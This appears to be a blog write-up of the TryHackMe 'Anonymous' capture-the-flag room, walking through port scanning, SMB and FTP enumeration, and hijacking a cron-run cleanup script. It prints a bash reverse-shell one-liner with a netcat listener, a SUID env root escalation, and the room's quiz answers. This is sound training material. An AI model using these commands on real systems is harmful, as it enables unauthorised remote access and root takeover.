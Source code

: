 ```yaml
---
title: "TryHackMe - Anonymous Writeup"
date: 2025-07-03
categories: [Capture The Flags, tryHackMe]
tags: [CTF, Writeups, tryHackMe, Privilege Escalation]
---
```


![Challenge picture](/assets/img/tryHackMe/anonymous/main.png)

*Room link: https://tryhackme.com/room/anonymous*

*Rating: medium*

---

## Challenge's Summary

Anonymous is a beginner friendly room, in which the user’s enumeration and privilege escalation skills are tested

Tools used: nmap, smbclient, netcat

---

## 1. Getting Started with Nmap scan

**Target IP: 10.10.217.99**

```bash
nmap -T4 -A -p- 10.10.217.99
```

T4: Timing template

A: Performs OS Detection, Service Detection, and traceroute scans

-p-: scan all ports


![nmap result 1](/assets/img/tryHackMe/anonymous/nmap1.png)

![nmap result 2](/assets/img/tryHackMe/anonymous/nmap2.png)


*Important Information:*

*anonymous login allowed on port 21, and it is also writeable, that means we as an attacker can put malicious files in the target system*

Ports open:

21 ftp: vsftpd 2.0.8 or later

22 ssh: OpenSSH 7.6p1


139 netbios-ssn Samba smbd 3.X — 4.X (workgroup: WORKGROUP)

445 netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)

**Question 1. Enumerate the machine. How many ports are open? 4**

**Question 2. What service is running on port 21? ftp**

**Question 3. What service is running on ports 139 and 445? smb**

---

## 2. SMB Enumeration

To get the share’s information, there are multiple ways to do it such as using enum4linux, nmap scripts, smbclient. Here, I proceeded with the smbclient tool

```bash
smbclient -L //10.10.217.99 -N  
```

![smb](/assets/img/tryHackMe/anonymous/smb.png)

**Question 4. There’s a share on the user’s computer. What’s it called? pics**

---

## 3. Gaining access to the target via FTP

Since, port 21 allowed anonymous login and it has writeable permissions too, my first step to gain access to the target was using the ftp service

![ftp 1](/assets/img/tryHackMe/anonymous/ftp1.png)

As seen, there is a scripts directory present with all the permission, so let’s get into the directory and proceed further

![ftp 2](/assets/img/tryHackMe/anonymous/ftp2.png)

*Files found:*

*clean.sh*

*removes_files.log*

*to_do.txt*

My next immediate step was to download these 3 files into my system and see their content

```bash
get clean.sh
get removed_files.log
get to_do.txt
```

## 3.1 Analysing files content

Checking their content:

![to_do.txt](/assets/img/tryHackMe/anonymous/todo.png)

![clean.sh](/assets/img/tryHackMe/anonymous/clean.png)

Looking at the bash script, it can be seen that the script is checking the /tmp folder and clean it up, upon which the result is stored in removed_files.log

Upon checking the removed_files.log, there was only one line which was repeated multiple times:


*Running cleanup script: nothing to delete
Running cleanup script: nothing to delete
Running cleanup script: nothing to delete
Running cleanup script: nothing to delete
Running cleanup script: nothing to delete..*

This tells me that a cronjob is setup to run the clean.sh script every minute or two and that the clean.sh script is not working as it should be.

Why so? because there is a syntax error in the if loop
*if [ $tmp_files=0]* instead of the comparing the variable to 0, it is assigning the value 0 to it


## 4. Getting the shell

Since I can upload files to the scripts directory and a cronjob is running clean.sh file every minute or two, I first created a rev.sh file, which upon running will setup a reverse shell on my machine, uploaded this file in the scripts directory and then created a new clean.sh file which executes this rev.sh. Now, when the crontab runs the clean.sh, the clean.sh will then execute the rev.sh and I will get my shell

1. created a new rev.sh to create a reverse shell connection

```bash
bash -i >& /dev/tcp/10.10.37.20/4444 0>&1
```

2. modified the clean.sh to assign $tmp_files="rev.sh"

![modified_clean.sh](/assets/img/tryHackMe/anonymous/modified_clean.png)

## 4.1 Putting the 2 files in the ftp directory

![putting in ftp dir](/assets/img/tryHackMe/anonymous/ftp_put.png)

## 4.2 Setting up netcat

As soon as I setup a listener on my machine, I got the shell

```bash
nc -lnvp 4444
```

l: listen mode

n: no DNS resolution

v: verbose mode

p: port number to which it should listen


![shell](/assets/img/tryHackMe/anonymous/shell.png)

## 4.3 User flag

![user.txt](/assets/img/tryHackMe/anonymous/user.png)

Got the user flag from here which is the answer to Q5

---

## 5. Privilege Escalation

Checking for SUID binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

![suid result](/assets/img/tryHackMe/anonymous/SUID.png)

The most interesting one out of these was the env binary. Using gtfobins, I got to know that if env is set with SUID bit then it can be used to gain root access

![env suid](/assets/img/tryHackMe/anonymous/env.png)

```bash
/usr/bin/env /bin/bash -p
```

*-p: tells the system to run the /bin/bash command with the privileges of /usr/bin/env*

## 5.1 Root shell

![root shell](/assets/img/tryHackMe/anonymous/root.png)

and boom, got the root shell

Extracting the flag:

```bash
cd /root
cat root.txt
```
![root flag](/assets/img/tryHackMe/anonymous/root_flag.png)

Challenge solved!

Hope you enjoyed reading it!





